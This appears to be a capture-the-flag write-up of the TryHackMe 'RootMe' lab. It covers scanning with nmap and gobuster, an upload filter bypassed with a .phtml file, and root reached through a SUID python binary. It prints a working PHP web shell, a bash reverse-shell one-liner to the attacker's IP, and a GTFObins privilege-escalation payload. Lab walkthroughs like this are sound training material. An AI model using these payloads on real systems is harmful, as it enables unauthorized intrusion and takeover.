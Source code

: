* * *
 ### ROOTME box 
 ### Tryhackme
* * * 

### Reconnaissance
- I scanned and fingerprinted the services running on the target ip with nmap and it discovered two open ports.

  ![2023-12-25_03-30](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/10260022-8e5a-4527-b014-2c0c53d579d4)

- Nmap identified an apache web server running on port 80,I took the next step on the list which was fuzzzing for directories with gobuster.
Gobuster discovered two interesting directories "uploads" and "panel"

   ![2023-12-25_03-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ca20f790-7fa5-4c70-81c0-5c06a27ab19e)

- The "/panel/" directory contains a page for uploading file,I tested for unrestricted file upload by trying to upload a simple php shell.
I was unable to upload a file ending with ".php", I decided to try other php extensions and ".phtml" worked. Now we can execute shell commands and try to escalate privileges

     ![2023-12-25_03-41](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9371e7e6-b584-48dd-8bbb-5d11823ac0f0)

- I accessed the shell via the uploads directory, this is an example of a php shell,I got it from revshells.com
```
   <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
- To make things easier,i popped a rev shell with this payload on the shell and created a listener on the host machine with "nc -nlvp 9999"
```  
   bash -c "bash -i >& /dev/tcp/10.18.31.164/9999 0>&1"
```

  ![2023-12-25_03-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/115d93ed-244a-49e6-9536-66622f266363)

- I stabilized the shell with this commands
 ```
   python3 -c "import pty;pty.spawn('/bin/bash')"
   ctrl+z
   stty raw -echo;fg
   export TERM=XTERM
```
### Privesc
- The goal of the lab is to escalate privileges with SUID bit.SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner. This means that even if a user does not have the necessary permissions to access or perform certain actions, they can do so by executing a file with the SUID permission
 I spotted binaries with SUID bits with this command and escalated privilege with /usr/bin/python
```
   find / -user root -perm /4000 2</dev/null
```
   ![2023-12-25_04-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bc55bdb5-dcb1-4a9f-8c14-397ca4c66eb7)

- I checked gtfobins for payloads to escalate privileges with the python binary if SUID bit is set, and I got a payload.
```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")' 
```
- I escalated privileges with the payload

   ![2023-12-25_04-09](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e834fc16-f7af-4f2d-802b-00c76817eca2)

- Now I can read root.txt and user.txt and pwn the box,challenge solved.

   ![2023-12-25_04-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/396ee395-f030-4ec5-9337-845c7200b580)

   
  
- 
